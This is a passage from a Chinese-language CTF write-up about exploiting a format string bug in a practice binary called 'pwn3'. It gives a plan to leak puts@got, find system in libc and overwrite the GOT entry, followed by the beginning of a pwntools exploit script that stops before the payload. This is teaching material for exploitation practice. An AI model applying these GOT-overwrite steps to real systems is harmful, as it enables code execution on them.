 ```C
      strcpy(&dest, i + 0x28);
      return printf(&dest);
    }
  }
  return printf(&dest);
}
```

#### 漏洞利用思路

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

- 绕过密码
- 确定格式化字符串参数偏移
- 利用put@got获取put函数地址，进而获取对应的libc.so的版本，进而获取对应system函数地址。
- 修改puts@got的内容为system的地址。
- 当程序再次执行puts函数的时候，其实执行的是system函数。

#### 漏洞利用程序

如下

```python
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
pwn3 = ELF('./pwn3')
if args['REMOTE']:
    sh = remote('111', 111)
else:
    sh = process('./pwn3')


def get(name):
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    sh.sendline(name)
    data = sh.recv()
    return data


def put(name, content):
    sh.sendline('put')
    sh.recvuntil('please enter the name of the file you want to upload:')
    sh.sendline(name)
    sh.recvuntil('then, enter the content:')
    sh.sendline(content)


def show_dir():
    sh.sendline('dir')


tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1)


## password
def password():
    sh.recvuntil('Name (ftp.hacker.server:Rainism):')
    sh.sendline(name)


```